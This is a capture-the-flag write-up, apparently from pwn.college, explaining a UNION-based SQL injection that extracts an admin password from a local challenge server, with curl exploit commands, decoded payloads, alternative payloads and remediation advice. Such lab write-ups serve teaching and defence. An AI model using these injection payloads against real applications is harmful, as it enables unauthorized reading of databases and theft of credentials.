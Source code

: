# SQL Injection Challenge Writeup: UNION-Based Data Extraction

## Challenge Overview
**Category**: Web Security (SQL Injection)  
**Difficulty**: Medium  
**Objective**: Extract the flag stored in the admin's password field using SQL injection.

## Vulnerability Analysis
**Type**: UNION-based SQL Injection  
**Location**: `query` parameter in GET request  
**Root Cause**: 
- Unsanitized user input in SQL query
- Direct string interpolation
- Excessive error/output disclosure

## Successful Exploitation

### Exploit Command
```bash
curl "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%27admin%27--"
```

### Payload Breakdown (URL-decoded):
```
" UNION SELECT password FROM users WHERE username='admin'--
```

### Explanation:
1. `%22` (`"`): Closes the original string literal
2. `%20UNION%20SELECT`: Appends our data extraction query
3. `password FROM users WHERE username='admin'`: Targets the flag
4. `--`: Comments out the rest of the original query

## Technical Details

### Resulting SQL Query:
```sql
SELECT username FROM users WHERE username LIKE "" 
UNION SELECT password FROM users WHERE username='admin'--"
```

### Why It Worked:
1. The UNION operator combined results from both queries
2. The application displayed all results, including our injected data
3. No filtering or parameterization was present

## Impact Assessment
- Full database read access
- Extraction of sensitive data (flag)
- Potential for further database exploration

## Remediation Recommendations

1. **Use Parameterized Queries**:
```python
db.execute("SELECT username FROM users WHERE username LIKE ?", (query,))
```

2. **Implement Input Validation**:
- Reject queries containing SQL keywords
- Implement allow-list for safe characters

3. **Output Restrictions**:
- Limit displayed columns
- Sanitize output that might contain sensitive data

4. **Database Hardening**:
- Use least privilege principle
- Disable dangerous SQL features

## Lesson Learned
This challenge demonstrates:
1. The danger of string interpolation in SQL queries
2. How UNION injections can bypass output limitations
3. The importance of proper output encoding
4. Why sensitive data shouldn't be stored in retrievable locations

## Full Exploit Command with Flag Extraction
```bash
curl -s "http://challenge.localhost/?query=%22%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%27admin%27--" | grep -o "pwn.college{.*}"
```

## Alternative Payloads
```bash
# Using comment syntax variation
curl "http://challenge.localhost/?query=\" UNION SELECT password FROM users LIMIT 1--"

# Using different quoting style
curl "http://challenge.localhost/?query=' UNION SELECT password FROM users WHERE username='admin'--"
```
